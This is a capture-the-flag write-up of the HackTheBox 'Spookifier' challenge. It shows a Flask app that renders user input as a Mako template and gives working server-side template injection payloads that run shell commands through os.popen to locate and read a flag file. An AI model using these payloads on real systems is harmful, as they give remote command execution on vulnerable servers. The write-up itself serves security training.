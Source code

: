 ```yaml
---
last_update:
    date: 2024-03-08
tags: ['Web', 'SSTI', 'HackTheBox']
---
```


# [Spookifier](https://app.hackthebox.com/challenges/Spookifier)

## 0. Analysis


### 0.1. Playaround
> Take a glance at the web server. An textbox with inputs that will send a query and outputs in the table.

![./1.png](1.png)
<center>Figure 1. Glance at the web server</center>  

### 0.2. Code
> web service runs with `flask` 2.0.0
```Dockerfile
# /Dockerfile:8
RUN pip install Flask==2.0.0 mako flask_mako Werkzeug==2.0.0
```

> flag stores in `/` without obfuscation/encryption.
```Dockerfile
# /Dockerfile:11
COPY flag.txt /flag.txt
```

> input uses template rendering via `mako`.
```py
# /challenge/application/util.py:1
from mako.template import Template

font1 = {
	'A': '𝕬',
	'B': '𝕭',
	'C': '𝕮',
    ...
}

font4 = {
	'A': 'A', 
	'B': 'B',
	'C': 'C',
	...
}

def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        ...

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
    ...

	return all_fonts
```

## 1. Assumptions

From the code, the template renders without any text-restriction given by font4 since most of characters to build code injections are supported (e.g., `<>%/\{}#$`). 

## 2. Attempts

> Test if the service is available to perform SSTI:
```js
payload = `${{ 5*5 }}`
encodeURIComponent(payload) // %24%7B%7B%205*5%20%7D%7D
```

![./2.png](2.png)
<center>Figure 2. Test if the web service can inject common SSTI payload</center>  

2. Injecting [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako) to retrieve system. Fistly, check the location of `flag.txt`:
```js
payload = `\${self.module.cache.util.os.popen('find / -name flag.txt').read()}`
encodeURIComponent(payload)
```

![3](./3.png)
<center>Figure 3. output of he location of <code>flag.txt</code></center>

```js
payload = `\${self.module.cache.util.os.popen('cat /flag.txt').read()}`
encodeURIComponent(payload)
```

![4](./4.png)
<center>Figure 4. flag found.</center>
